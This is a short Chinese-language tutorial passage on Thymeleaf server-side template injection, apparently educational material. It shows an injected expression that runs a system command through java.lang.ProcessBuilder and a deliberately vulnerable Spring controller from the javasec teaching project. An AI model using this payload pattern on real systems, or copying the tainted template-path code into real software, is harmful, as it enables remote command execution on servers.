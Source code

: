 ## thymeleaf

基本原理

```plain
<html>
<body>
  <h1>${name}</h1>
</body>
</html>
```

如果攻击者将以下恶意代码注入模板：

```plain
<html>
<body>
  <h1>${new java.lang.ProcessBuilder("calc").start()}</h1>
</body>
</html>
```

则模板会解析为以下内容：

```plain
<html>
<body>
  <h1>cmd /c calc</h1>
</body>
</html>
```

javasec 的示例如下

```plain
@RequestMapping("/thymeleaf")
    public String thymeleaf(String content) {
        return "user/" + content + "/welcome"; //template path is tainted
    }
```

没有对应的模板文件，默认渲染文件名字，所以存在模板注入  
[![](assets/1705886531-4c9bb9771d5ef4e987cb71d2999f28da.png)](https://cdn.nlark.com/yuque/0/2023/png/21762749/1703579189283-0ecbb1e3-cc2a-4fce-885f-99a44736dc57.png#averageHue=%23e5e0df&clientId=u5b490a61-0d9a-4&from=paste&height=278&id=uf9fb1770&originHeight=417&originWidth=1489&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124984&status=done&style=none&taskId=u80c506a6-4991-4aa7-bf28-e4c99dc94ae&title=&width=992.6666666666666)  
但是也会报错 500
